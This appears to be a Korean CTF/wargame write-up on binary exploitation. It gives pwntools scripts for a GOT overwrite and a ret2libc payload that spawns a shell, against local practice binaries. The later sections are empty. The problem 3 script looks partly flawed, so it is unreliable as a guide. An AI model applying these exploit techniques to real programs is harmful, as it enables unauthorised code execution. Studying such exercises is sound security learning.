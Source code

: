 # rop


## problem 1

GOT Overwrite를 하는 문제이다. 포인터를 통해 puts의 GOT를 gift의 주소로 변경하면 puts함수를 실행할 때 gift로 점프해 실행하도록 만들 수 있다. gdb를 통해 디버깅하여 puts의 GOT와 gift함수의 주소를 알 수 있다. 

```python
from pwn import *

p = process('./got_overwrite')

puts_got = 0x404018
gift = 0x4011d6

p.recvuntil(b"addr: ")
p.sendline(str(puts_got))
p.recvuntil(b"value: ")
p.sendline(str(gift))

p.interactive()
```


## problem 3

ROP 문제로, 주어진 one gadget을 활용할 수 있다.


```python

from pwn import *

p = process('./onegadget')
e = ELF('./onegadget')

binsh = 0x68732f6e6962

p.recvuntil(b'printf Function is at: ')
printf_addr = int(p.recv(14), 16)


libc_base = printf_addr - e.symbols['printf']

system_addr = libc_base + e.symbols['system']
binsh = libc_base + list(e.search('/bin/sh'))[0]

log.info("system addr : %s"%hex(system_addr))

payload = b'A'*0x20
payload += b'B'*0x4
payload += p64(system_addr)
payload += b'C'*0x4
payload += p64(binsh)

p.sendline(payload)

p.interactive()

```



## problem 3-2

마찬가지로 ROP 문제이다. read를 활용하여 


## problem 4




## problem 5




## problem 6






